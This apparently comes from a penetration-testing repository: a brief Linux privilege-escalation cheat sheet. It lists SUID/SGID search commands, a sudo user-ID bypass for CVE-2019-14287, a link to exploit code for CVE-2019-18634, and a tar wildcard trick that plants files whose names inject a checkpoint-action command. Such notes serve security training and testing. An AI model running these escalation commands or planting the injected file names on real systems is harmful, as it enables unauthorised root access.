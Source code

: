 # Linux Enumeration

| Command | Summary |
| ---------------------------- | ---------------------------- |
| Find SUID files | ```find / -perm -u=s -type f 2>/dev/null``` |
| Alternate Find SUID files | ```find / -type f -perm -04000 -ls 2>/dev/null``` |
| Find SGID files | ```find / -perm -g=s -type f 2>/dev/null``` |


| Check | Description |
| ---------------------------- | ---------------------------- |
| Sudo Local Privilege Escalation (CVE-2019-14287) | Sudo versions < 1.8.27 may be vulnerable to LPE, check: ```sudo -u#-1 /bin/bash``` |
| Sudo Buffer Overflow (CVE-2019-18634)| Sudo versions < 1.8.26 may be vulnerable to a buffer overflow, pwfeedback enabled: [GitHub for Code](https://github.com/saleemrashid/sudo-cve-2019-18634/blob/master/exploit.c) |
| Tar wildcard * | Be careful with checkpoint syntax ```touch /home/user/--checkpoint=1``` and ```touch /home/user/--checkpoint-action=exec=sh\ shell.sh``` | 